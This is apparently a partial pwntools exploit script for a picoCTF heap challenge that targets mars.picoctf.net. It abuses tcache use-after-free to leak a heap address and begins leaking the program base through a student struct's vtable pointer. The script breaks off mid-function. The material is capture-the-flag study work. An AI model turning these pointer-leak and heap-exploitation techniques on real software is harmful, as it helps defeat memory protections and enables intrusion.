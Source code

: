 ```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chall.patch")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = "kitty"
def conn():
    if args.REMOTE:
        return remote("mars.picoctf.net", 31638)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript="c")
    else:
        return process([exe.path])

MENU_DELIM = b"4. Remote student\n$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$\n"

def leak_heap(r):

    # if we free and don't reallocate
    # the name pointer will be pointing to a tcache heap chunk
    # which has a pointer to the next chunk in that tcache
    # we can snag that with the name print

    r.sendline(b"0 0 0")

    r.sendlineafter(MENU_DELIM, b"1 0 24")
    r.sendline(b" ".join([b"48" for x in range(24)]))

    # empty tcache and then create another student, allowing us to refill it to 6
    for i in range(6): 
        r.sendlineafter(MENU_DELIM, f"0 {i + 1} 0".encode())
    r.sendlineafter(MENU_DELIM, b"4 1")
    r.sendlineafter(MENU_DELIM, b"4 2")
    r.sendlineafter(MENU_DELIM, b"4 0")
    r.recvuntil(b"choice: \n")
    r.recvuntil(b"choice: \n")

    r.sendline(b"2 0")

    heap_value = u64(r.recvline().rstrip().ljust(8,b"\x00"))

    r.recvuntil(b"choice: \n")
    return heap_value - 0x13cf0

def leak_program_base(r):

    # student structs have a vtable ptr
    # lets just snag that and calculate program base

    r.sendline(b"0 0 0")

    r.sendlineafter(MENU_DELIM, b"1 0 24")
    r.sendline(b" ".join([b"48" for x in range(24)]))

    r.sendlineafter(MENU_DELIM, b"4 3") # students were populated when leaking heap, can just use one of those lol
    r.recvuntil(b"choice: \n")
    r.recvuntil(b"choice: \n")
```